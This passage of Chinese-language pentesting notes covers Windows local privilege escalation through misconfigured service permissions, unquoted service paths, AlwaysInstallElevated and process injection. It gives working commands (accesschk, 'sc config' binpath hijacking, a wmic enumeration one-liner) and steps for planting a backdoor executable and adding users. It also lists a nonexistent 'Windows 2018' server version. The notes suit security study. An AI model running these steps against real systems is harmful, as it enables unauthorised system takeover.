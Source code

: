 
* 不安全的服务权限

原理：即使正确引用了服务路径，也可能存在其他漏洞。由于管理配置错误，用户可能对服务拥有过多的权限，例如，可以直接修改它导致重定向执行文件

```powershell
过程：检测服务权限配置-制作文件并上传-更改服务路径指向-调用后成功
accesschk.exe(微软官方自带) -uwcqv "administrators" users权限就改为administrator
sc config "NewServiceName" binpath="C:\Program.exe"
sc start "NewServiceName"
```

* 不带引号的服务路径

原理：当 Windows 服务运行时(一般以system权限运行)，会发生以下两种情况之一。如果给出了可执行文件，并且引用了完整路径，则系统会按字面解释它并执行。但是，如果服务的二进制路径未包含在引号中，则操作系 统将会执行找到的空格分隔的服务路径的第一个实例。

```powershell
Win2012-不带引号服务路径配合 MSF-Web,本地权限
过程：检测引号服务路径（有引号，则是正常的，没引号就是有问题的）-利用路径制作文件并上传-启用服务或重启-调用后成功
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """  # 寻找服务中没有引号的地方，但是找到的程序还要必须有空格
C:\Program Files -f
"C:\Program Files" -f 
C:\Program Files\cmd.exe
C:\Program(程序) Files\cmd.exe     # Program.exe程序
前面是程序，后面是参数
例子
C:\program files(x86)\grassoft\macro expert\MacroService.exe
将后门在C盘根目录
写入一个program.exe上
启动服务名
start "服务命"
如果服务启动后崩了，那么可以重新创建一个后门，比如启动3389服务，或者添加一个用户
```

* Unattended Installs
* AlwaysInstallElevated

AlwaysInstallElevated 提权默认禁用配置，利用成功机会很少

* 进程注入（太老）

  进程注入提权是本地提权方式的一种较为老的安全技术了，利用的是注入进程的所有者实现权限共 享机制，这类技术主要利用在 windows2008 之前操作系统上.所以我们需要学习后续的本地提权更多 的手法才能有针对高版本的系统。

  * pinjector 进程注入工具针对-win2008 以前操作系统
  * pexec64 32 进程注入工具针对-win2008 及后操作系统-（佛系）
  * 参考word

* 补充：不安全的服务权限和不带引号的服务权限一般都是由管理员不安全配置以及安装的一些软件的不安全设置造成的

##### 针对版本

* 个人使用
  * Windows 7、Windows 10 xp
* 服务器版本
  * Windows 2018、2012、2016

